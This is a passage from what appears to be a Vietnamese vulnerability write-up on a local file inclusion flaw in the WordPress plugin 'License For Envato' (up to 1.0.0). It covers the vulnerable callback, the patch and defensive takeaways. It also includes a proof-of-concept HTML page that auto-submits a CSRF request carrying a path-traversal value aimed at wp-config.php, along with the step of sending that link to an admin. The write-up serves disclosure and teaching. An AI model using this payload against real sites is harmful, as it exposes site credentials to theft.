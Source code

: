 `plugin_page()` được gọi thông qua callback của submenu “Settings”, được đăng ký trong hàm `admin_menu()`.

Submenu này có quyền truy cập `manage_options`, nên chỉ hiển thị với admin. Khi admin mở trang con `“Settings”` (endpoint `licenseenvato-settings`), WordPress sẽ gọi `settings()`, từ đó khởi tạo lớp `Settings` và chạy `plugin_page()`.

## Exploit
### Proof of Concept (PoC)

#### Step 1

Tạo trang web chứa LFI payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>w41bu1</title>
</head>
<body>
    <form action="http://localhost/wp-admin/admin.php" method="get">
        <input type="text" name="page" value="licenseenvato-settings">
        <input type="text" name="tab" value="../../../../../../wp-config">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2

Gửi link đến trang web cho admin

**Result**:

Debugger đã nhảy đến `wp-config.php`

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

Phiên bản **≤ 1.0.0** của License For Envato cho phép LFI vì `include()` dùng `$atts['template']` chưa được xác thực; lỗ hổng đã được vá trong **1.1.0** bằng `basename()` + `realpath()` và kiểm tra `base_dir`.

## Key takeaways

* Việc **chỉ dùng `sanitize_text_field()` không đủ** để ngăn chặn path traversal trong PHP.
* Mọi tham số được dùng trong `include()` hoặc thao tác file **phải được kiểm soát bằng whitelist hoặc `realpath()`**.
* **CSRF kết hợp LFI** có thể biến lỗ hổng dành cho admin thành lỗ hổng **unauthenticated**, nếu thiếu kiểm tra nonce.
* Cần **kiểm tra kỹ input và giới hạn phạm vi file có thể truy cập**, đặc biệt trong các plugin xử lý template hoặc view.
* Luôn xác thực và ràng buộc đường dẫn khi include file - không bao giờ tin tưởng dữ liệu từ request, dù đã “sanitize”.
